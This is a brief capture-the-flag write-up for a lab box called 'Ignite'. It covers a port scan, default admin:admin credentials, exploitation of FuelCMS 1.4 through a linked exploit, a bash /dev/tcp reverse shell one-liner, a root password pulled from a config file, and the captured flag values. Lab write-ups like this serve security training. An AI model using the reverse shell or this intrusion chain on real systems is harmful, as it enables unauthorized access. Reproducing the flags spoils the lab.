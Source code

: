 # Ignite

### IP Address
```
10.10.235.13
```

### Scan

port | type | state | service | version
-----|------|-------|---------|--------
80 | open | tcp | http | Apache httpd 2.4.18 ((Ubuntu))
 

website running robots.txt file found with disallowed entry **/fuel/**

### Credentials found

>admin:admin

Website running on **fuelCMS v1.4**
Exploited **fuelCMS v1.4** using [exploit](https://www.exploit-db.com/exploits/47138)

created reverse shell connection using nc command

> bash -i >& /dev/tcp/10.10.235.13/4444 0>&1

### Task
**user.txt**

flag found in **/home** directory

>6470e394cbf6dab6a91682cc8585059b

**root.txt**

credential for root user found in ```fuel/application/config/database.php```
>root:mememe

root flag found in **/root/root.txt**
>b9bbcb33e11b80be759c4e844862482d
